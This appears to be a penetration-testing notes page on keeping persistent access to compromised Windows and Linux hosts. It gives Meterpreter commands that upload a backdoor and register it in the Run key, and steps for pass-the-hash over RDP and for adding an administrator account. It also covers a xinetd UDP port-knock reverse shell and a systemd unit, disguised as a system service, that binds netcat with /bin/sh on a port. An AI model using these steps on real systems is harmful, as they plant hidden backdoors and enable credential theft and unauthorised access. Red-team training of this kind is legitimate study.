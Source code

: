 # Methods of Persistence
1) [Passwords](#Passwords)
   1) [Pass the Hash](#Pass-the-Hash)
   2) Crack the Hash
2) [Backdoor](#Backdoor)
3) [New User](#New-User)
4) [DLL Preloading / DLL Hijacking](#DLL-Preloading)

# Passwords
1) [Get Windows passwords with mimikatz](../../Tools/Credentials_Cryptography/mimikatz/README.md)
2) [Get Windows passwords and hashes with Meterpreter](../../Tools/Metasploit/README.md#Get-Windows-Credentials).
3) [Get SMB Hashes with Meterpreter](../../Tools/Metasploit/README.md#Capture-SMB-Hashes).
4) [Use Windows Credentials Editor](../../Tools/Credentials_Cryptography/WCE/README.md)

### Pass the Hash
1) [Use Meterpreter SMB module and specify SMBPass as the capture hash](../../Tools/Metasploit/README.md#Establish-Reverse-Shell-with-SMB).
2) RDP with password or pass the hash.
   1) Enable RDP with [Meterpreter](../../Tools/Metasploit/README.md#Enable-RDP) or [Windows](../../Tools/Shells/Windows/CMD/README.md#Start-Service).
   2) [Add user to group "Remote Desktop Users"](../../Tools/Shells/Windows/CMD/README.md#Add-User-to-a-Local-Group).
   3) [Pass the Hash over RDP](../../Tools/RDP/freerdp/README.md#Pass-The-Hash).

    [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://blog.harmj0y.net/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

### Backdoor
##### Steps
1) Upload backdoor to victim.
2) Execute at prefixed times.
3) Automatically run on boot.

##### Methods
1) [Meterpreter](../../Tools/Metasploit/README.md#Persistence)
2) Manually from Meterpreter
   1) Upload payload created with msfvenom, Veil, BDF, etc. ```meterpreter > upload /root/backdoor.exe C:\\Windows\```
   2) Edit Windows Registry ```meterpreter > reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -d "C:\Windows\backdoor.exe" -v MyBackdoorName```

### New User
1) [Add user](../../Tools/Shells/Windows/CMD/README.md#Add-User).
2) [Add user to group "Administrators"](../../Tools/Shells/Windows/CMD/README.md#Add-User-to-a-Local-Group).

### [DLL Preloading](../DLL_Preloading/README.md)


# Xinetd UDP Portknock Backdoor
##### [Step 1 - On Target, create xinetd service](https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56)
[Local File](../../Tools/Shells/Persistence/xinetd/xinetd_server.sh)

It requires that netcat is on the target, in the /bin directory.  It copies netcat to file /bin/services.udp.
##### Step 2 - Start netcat listener on Attack machine
```bash
nc -lnvp <Port #>
```
##### Step 3 - Send a single UDP packet to target, "knocking," and causing the target to establish a reverse shell.
```bash
hping3 -2 -c 1 <Target IP Address> -p 65534
```

### Portknocking References
[Port knocking](https://en.wikipedia.org/wiki/Port_knocking)

# Systemd Netcat Bind Shell
##### Step 1 - On Target, copy netcat to a new file, in /lib/systemd directory.
```bash
cp /bin/nc /lib/systemd/systemd-service
```
##### Step 2 - On Target, create file /lib/systemd/system/systemd-service with following contents
[systemd-service](../../Tools/Shells/Persistence/Systemd/systemd-service)
```bash
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```
##### Step 3 - On Target, enable & start service
```bash
systemctl enable systemd.service
systemctl start systemd.service
```
##### Step 4 - Confirm that port is listening on the target
```bash
netstat -auntp | grep 56825
```
##### [Step 5 - From Attack machine, establish shell (Note Port # 56825)](../../Tools/Shells/Bind/README.md#Netcat-Bind-Shell)

